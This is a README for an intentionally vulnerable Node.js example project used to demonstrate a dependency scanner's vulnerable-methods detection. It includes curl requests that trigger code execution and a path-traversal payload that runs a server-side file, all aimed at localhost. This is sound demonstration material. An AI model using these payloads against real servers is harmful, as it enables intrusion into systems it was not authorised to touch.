 # [:] Example node project with vulnerable methods

A node project to demonstrate srcclr agent's vulnerable methods feature for JavaScript

## Vulnerability 1 Exploit

```
git clone https://github.com/srcclr/example-javascript-vulnerable-methods.git
cd example-javascript-vulnerable-methods
npm install
node index.js

```

and then run the following command in another terminal

```
curl --path-as-is 'http://127.0.0.1:8001/api/'
```
You can see the code execution vulnerability are executed mutliple times.


## Vulnerability 2 Exploit

```
git clone https://github.com/srcclr/example-javascript-vulnerable-methods.git
cd example-javascript-vulnerable-methods
npm install
node larvitbase-api.js

```

and then run the following command in another terminal

```
curl --path-as-is 'http://127.0.0.1:8001/../../../../hacked'
```
You can see the JavaScript file`hacked.js` is executed in the server side.

## Scan with SRCCLR Agent

```
brew tap srcclr/srcclr
brew install srcclr
srcclr activate
srcclr scan --url https://github.com/srcclr/example-javascript-vulnerable-methods
```
